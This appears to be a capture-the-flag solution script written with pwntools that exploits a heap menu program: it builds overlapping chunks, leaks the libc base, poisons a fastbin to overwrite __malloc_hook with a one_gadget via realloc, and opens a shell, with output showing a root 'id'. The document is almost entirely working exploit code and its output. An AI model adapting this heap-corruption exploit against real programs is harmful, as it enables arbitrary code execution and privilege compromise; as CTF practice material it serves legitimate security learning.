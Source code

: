 ```

def edit(idx, length, name):
    p.sendlineafter('choice:', '3')
    p.sendlineafter(':', str(idx))
    p.sendlineafter(':', str(length))
    p.sendafter(':', name)
    sleep(0.01)

def delete(idx):
    p.sendlineafter('choice:', '4')
    p.sendlineafter(':', str(idx))
    
add(0xf0, '0' * 0xf0)
add(0x68, '1' * 0x68)
add(0xf0, '2' * 0xf0)
add(0x10, '3' * 0x10)

delete(0)
edit(1, 0x68, flat('1' * 0x60, 0x170))
delete(2)
add(0xf0, 'x' * 0x10)
show()
libc.address = u64(p.recvuntil("\x7f")[-6:] + b'\0\0') - 0x3c4b78
print('libc @ {:#x}'.format(libc.address))
assert libc.address & 0xfff == 0
add(0x160, '4' * 0x160)

add(0xf0, 'a' * 0xf0)
add(0x68, 'b' * 0x68)
add(0xf0, 'c' * 0xf0)
add(0x10, 'd' * 0x10)

delete(4)
edit(5, 0x68, flat('1' * 0x60, 0x170))
delete(6)
delete(5)
#add(0x120, flat(cyclic(n = 8, length = 0x120)))
add(0x120, flat('a' * 248, 0x71, libc.sym['__malloc_hook'] - 0x23))
add(0x68, 'x' * 10)
#add(0x68, flat('\0' * 0x13, libc.sym['one_gadget']))
add(0x68, flat('\0' * 11, libc.sym['one_gadget'], libc.sym['__libc_realloc'] + 16))
p.sendlineafter('choice:', '2')
p.sendlineafter(':', str(0xff))

p.interactive()
```
```
libc @ 0x7f6db1efb000
$ id
uid=0(root) gid=0(root) groups=0(root)
```
